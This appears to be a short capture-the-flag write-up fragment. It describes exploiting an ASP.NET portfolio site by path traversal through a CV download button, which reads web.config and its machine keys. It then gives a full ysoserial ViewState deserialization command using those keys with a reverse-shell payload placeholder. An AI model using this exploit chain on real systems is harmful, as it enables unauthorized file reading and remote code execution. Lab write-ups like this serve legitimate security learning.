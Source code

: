 
Dev has a download cv button
- On burp we can change `cv.pdf` to `..\web.config`
- there is ysoserial exploit with machine keys
```powershell
wine ysoserial.exe -p ViewState  -g TypeConfuseDelegate -c "REVSHELL_PAYLOAD" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
